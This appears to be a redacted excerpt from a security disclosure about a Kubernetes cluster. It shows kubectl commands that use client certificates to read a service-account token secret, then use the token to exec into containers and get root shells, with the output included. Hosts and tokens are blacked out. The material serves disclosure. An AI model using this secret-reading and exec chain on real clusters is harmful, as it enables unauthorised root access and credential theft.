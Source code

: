 ```bash
    Optional:    false
QoS Class:       Guaranteed
Node-Selectors:  <none>
Tolerations:     node.kubernetes.io/not-ready:NoExecute for 300s
                 node.kubernetes.io/unreachable:NoExecute for 300s
Events:          <none>
```

```bash
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://██████ get secret███████ -n ███████ -o yaml

apiVersion: v1
data:
  ca.crt: ██████████
  namespace: ████
  token: ██████████==
kind: Secret
metadata:
  annotations:
    kubernetes.io/service-account.name: default
    kubernetes.io/service-account.uid: ████
  creationTimestamp: 2017-01-23T16:08:19Z
  name:█████
  namespace: ██████████
  resourceVersion: "115481155"
  selfLink: /api/v1/namespaces/████████/secrets/████
  uid: █████████
type: kubernetes.io/service-account-token
```

And finally, it's possible to use this token to get a shell in any container:
```bash
$ kubectl --certificate-authority ca.crt --server https://████ --token "█████.██████.███" exec -it w█████████ -- /bin/bash

Defaulting container name to web.
Use 'kubectl describe pod/w█████████' to see all of the containers in this pod.
███████:/# id
uid=0(root) gid=0(root) groups=0(root)
█████:/# ls
app  boot   dev  exec  key  lib64  mnt  proc  run   srv  start  tmp  var
bin  build  etc  home  lib  media  opt  root  sbin  ssl  sys    usr
███████:/# exit
```

```bash
$ kubectl --certificate-authority ca.crt --server https://███████ --token "█████.██████.█████████" exec -it ████████ -n ████████ -- /bin/bash

Defaulting container name to web.
Use 'kubectl describe pod/█████ -n █████' to see all of the containers in this pod.
root@████:/# id
uid=0(root) gid=0(root) groups=0(root)
root@████:/# ls
app  boot   dev  exec  key  lib64  mnt  proc  run   srv  start  tmp  var
bin  build  etc  home  lib  media  opt  root  sbin  ssl  sys    usr
root@█████:/# exit
```

---